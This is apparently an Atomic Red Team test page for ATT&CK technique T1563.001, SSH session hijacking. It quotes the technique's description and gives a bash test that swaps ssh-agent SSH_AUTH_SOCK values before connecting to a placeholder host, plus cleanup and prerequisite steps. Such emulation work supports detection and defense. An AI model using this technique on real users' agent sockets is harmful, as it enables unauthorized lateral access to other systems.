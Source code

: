 # T1563.001 - Remote Service Session Hijacking: SSH Hijacking
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1563/001)
<blockquote>Adversaries may hijack a legitimate user's SSH session to move laterally within an environment. Secure Shell (SSH) is a standard means of remote access on Linux and macOS systems. It allows a user to connect to another system via an encrypted tunnel, commonly authenticating through a password, certificate or the use of an asymmetric encryption key pair.

In order to move laterally from a compromised host, adversaries may take advantage of trust relationships established with other systems via public key authentication in active SSH sessions by hijacking an existing connection to another system. This may occur through compromising the SSH agent itself or by having access to the agent's socket. If an adversary is able to obtain root access, then hijacking SSH sessions is likely trivial.(Citation: Slideshare Abusing SSH)(Citation: SSHjack Blackhat)(Citation: Clockwork SSH Agent Hijacking)(Citation: Breach Post-mortem SSH Hijack)

[SSH Hijacking](https://attack.mitre.org/techniques/T1563/001) differs from use of [SSH](https://attack.mitre.org/techniques/T1021/004) because it hijacks an existing SSH session rather than creating a new session using [Valid Accounts](https://attack.mitre.org/techniques/T1078).</blockquote>

## Atomic Tests

- [Atomic Test #1 - SSH Session Hijacking via SSH_AUTH_SOCK](#atomic-test-1---ssh-session-hijacking-via-ssh_auth_sock)


<br/>

## Atomic Test #1 - SSH Session Hijacking via SSH_AUTH_SOCK
This test simulates an SSH session hijacking by starting a new ssh-agent and using its SSH_AUTH_SOCK for the hijacking process.

**Supported Platforms:** Linux


**auto_generated_guid:** 7819dc90-13da-4c7d-bc6d-f8de5e872ae6






#### Attack Commands: Run with `bash`! 


```bash
# Start a new ssh-agent instance and capture its SSH_AUTH_SOCK
eval $(ssh-agent -s)
OLD_SSH_AUTH_SOCK=$SSH_AUTH_SOCK
# Kill the initial ssh-agent and start a new one to simulate hijacking
eval $(ssh-agent -k)
eval $(ssh-agent -s)
NEW_SSH_AUTH_SOCK=$SSH_AUTH_SOCK
# Temporarily switch back to the old SSH agent to simulate an application using the outdated socket
export SSH_AUTH_SOCK=$OLD_SSH_AUTH_SOCK
# Simulate SSH session hijacking by switching to the new SSH_AUTH_SOCK
SSH_AUTH_SOCK=$NEW_SSH_AUTH_SOCK ssh username@target_host 2>/dev/null
```

#### Cleanup Commands:
```bash
eval $(ssh-agent -k)
```



#### Dependencies:  Run with `bash`!
##### Description: Ensure ssh is available on the system
##### Check Prereq Commands:
```bash
which ssh
```
##### Get Prereq Commands:
```bash
sudo apt-get update && sudo apt-get install -y ssh
```




<br/>
